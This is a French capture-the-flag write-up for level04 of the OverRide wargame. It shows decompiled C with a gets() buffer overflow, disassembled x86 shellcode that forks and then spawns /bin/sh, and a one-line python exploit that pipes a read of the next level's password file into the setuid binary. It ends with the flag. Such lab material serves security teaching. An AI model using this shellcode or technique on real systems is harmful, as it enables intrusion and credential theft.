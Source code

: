 # OverRide : [level04]

### Observation :
En arrivant sur le level04 on trouve un exécutable nommé level04.\
Quand nous essayons de le lancer cela nous demande un shellcode puis ecrit "child is exiting...". \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | |


#### Conclusions:

----
Résolution:
----



#### Injection:
```asm
# La fonction injectée appelle <fork>:

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  b0 02                   mov    al,0x2
5:  cd 80                   int    0x80
```

```asm
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: 99                      cdq
14: b0 0b                   mov    al,0xb
16: cd 80                   int    0x80
```



#### Commande:
```bash
echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\x31\xc0\x50\xb0\x02\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\xFF'*(156 - 31) + '\xff\xff\xdd\xa0'[::-1])" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04 ))
```

**Flag :** 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

